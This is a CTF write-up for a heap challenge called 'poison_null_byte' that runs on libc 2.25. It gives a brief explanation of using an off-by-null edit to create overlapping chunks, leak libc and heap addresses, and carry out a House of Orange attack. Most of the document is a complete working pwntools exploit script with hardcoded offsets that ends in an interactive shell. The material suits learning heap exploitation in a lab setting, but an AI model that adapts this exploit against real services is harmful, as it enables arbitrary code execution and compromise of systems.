



this challenge let us create up to 14 chunks, and edit, free or read said chunks 



edithing a chunk will null out the byte after our data, effectively granting us a way to clear flags in chunks with size that is divisible by 0x100



and because the binary use libc 2.25, size vs prev_size check doesnt exist, thus making it possible to create overlapping chunks by clearing pre_inuse, faking prevsize and let the freed chunk consolidate backward, over a live chunk

and because we can read and existing chunk, we can leak libc_base and heap_base, then edit our existing freed chunk metadata with our overlapping live chunk to commit a house of orange attack

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./poison_null_byte")

context.binary=exe 
context.log_level="debug"

script='''
b main
c
b*_IO_flush_all_lockp+540
c
b _IO_wdoallocbuf
'''

def malloc(size):
    r.recvuntil(">")
    r.sendline("1")
    r.recvuntil("size:")
    r.sendline(str(size).encode())

def edit(index,data):
    r.recvuntil(">")
    r.sendline("2")
    r.recvuntil("index:")
    r.sendline(str(index).encode())
    r.recvuntil("data:")
    r.send(data)

def free(index):
    r.recvuntil(">")
    r.sendline("3")
    r.recvuntil("index:")
    r.sendline(str(index).encode())

def read(index):
    r.recvuntil(">")
    r.sendline("4")
    r.recvuntil("index: ")
    r.sendline(str(index).encode())

def main():
    global r
    # r=gdb.debug(exe.path,gdbscript=script)
    r = process(exe.path)
    
    malloc(0x88)
    malloc(0x88)
    malloc(0x88)
    malloc(0x88)
    malloc(0xf8)
    malloc(0x88)

    free(2)

    payload=flat(
        b"\xff"*0x80,
        0x90+0x90,
        0
    )
    edit(3,payload)

    free(4)

    malloc(0xf8)

    payload=flat(
        b"\xff"*0x68,
        0x21+0x100+0x90,
    )
    edit(3,payload)

    free(0)

    payload=flat(
        b"\xff"*0x80,
        0x90+0x90,
        0
    )
    edit(1,payload)

    free(6)

    payload=flat(
        b"\xff"*0x68,
        0x31,
    )
    edit(3,payload)

    malloc(0xf8)
    edit(1,payload)

    malloc(0x88)
    malloc(0xe8)
    malloc(0xf8)
    malloc(0x88)

    read(1)

    data=r.recvline()
    data=data[:0x78]
    data=data[0x70:]

    heap_base=u64(data)-0x220
    print(hex(heap_base))

    read(1)

    data=r.recvline()
    data=data[:0x80]
    data=data[0x78:]

    libc_base=u64(data)-0x397b78
    print(hex(libc_base))

    free(8)

    payload=flat(
        b"\xff"*0xd8,
        libc_base+0x393f00,
        0x90+0xf0,
        0
    )
    edit(9,payload)

    free(10)
    malloc(0x98)

    payload=flat(
        0,
        0x61,
        libc_base+0x397b58,
        libc_base+0x398500-0x10,
        0,
        1,
        0,
        b"\xff"*0x68,
        heap_base+0x3e0-0x130
    )
    edit(9,payload)

    payload=flat(
        heap_base+0x3e8,
        b"\x00"*0x68,
        libc_base+0xd6fbd
    )
    edit(12,payload)

    malloc(0x48)

    r.interactive()


if __name__ == "__main__":
    main()

```

